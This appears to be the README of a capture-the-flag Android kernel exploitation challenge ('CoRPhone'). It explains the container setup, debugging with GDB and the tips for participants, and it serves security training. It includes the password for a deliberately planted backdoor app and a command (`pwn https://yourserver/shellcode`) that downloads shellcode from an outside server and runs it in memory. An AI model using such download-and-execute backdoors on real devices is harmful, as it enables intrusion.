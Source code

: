 # Build the Docker image

```bash
./build-docker-image.sh
```

- Ensure you have 20-25 GB of free disk space.
- The challenge runs a privileged container and requires access to `/dev/kvm`.

# Create the challenge environment

```bash
./corphone create
```

- First time creation takes ~5 minutes due to Cuttlefish initialization. Subsequent boots are much faster.

# Stop / Start / Delete CoRPhone instances

- To stop the challenge (e.g. the kernel crashed) press CTRL+C in the terminal running it, or from another terminal:

```bash
./corphone stop
```

- To start the challenge after the initial image creation (this time the device should boot in ~60 seconds or less, depending on your system.):

```bash
./corphone start
```

- To delete an instance:

```bash
./corphone delete
```

# Interacting with the challenge

- Backdoor APK: `container-ip:1337` - connect with netcat. The password is: **apritisesamo**.
- ADB: `container-ip:6666` - you can also use `scrcpy` and admire the albino pigeon.

If you run the challenge in debug mode:

- GDB: `container-ip:5555` - use `target remote <container-ip>:5555`. The kernel will wait to boot until you attach GDB (don't ask me why).

# Debugging with GDB

- If an instance already exists, delete it:

```bash
./corphone delete
```

- Create a debug image so you can attach GDB:

```bash
./corphone create --debug
```

- This will also set the number of CPUs to 1 and disable KASLR.
- After creating the image with `--debug`, attach GDB to the VM otherwise the kernel won't boot. Don't detach the debugger, or you won't be able to attach it again. Just set a bp and use `continue`.

# Debug image (Optional)

- A lightweight Linux image is provided to speed up initial vulnerability analysis and the early stages of exploit development. The vulnerable module is the same, but the kernel (and the system image of course) differ from Android, so make sure your exploit works on the target device.

# Remote instance

Once you pwn the local instance, open a ticket and we will create a remote instance for your team. On the remote instance adbd is not enabled.

# Some tips

- Compile the exploit statically with `musl-gcc`.
- The backdoor provides a command to download and execute a shellcode in memory. You can use `exp2sc.py` to convert ELF to shellcode and download it from the backdoor with:

```bash
pwn https://yourserver/shellcode
```

- Since the exploit is executed in memory, a good way to capture the output is to write it to a file in `/sdcard/` (e.g. `/sdcard/Download/exp.log`) and use ADB with `tail -f` from another terminal to read it.
- The backdoor app source code is provided but not necessary for the challenge.
- Remember: in Android some syscalls are not available and SELinux is a thing.
- Once you pwned the remote instance, Mattermost (`/data/data/<apk-name-here>`) is where you'll find what you're looking for. There is no local/fake flag for this challenge.
- For any questions, don't hesitate to open a ticket.
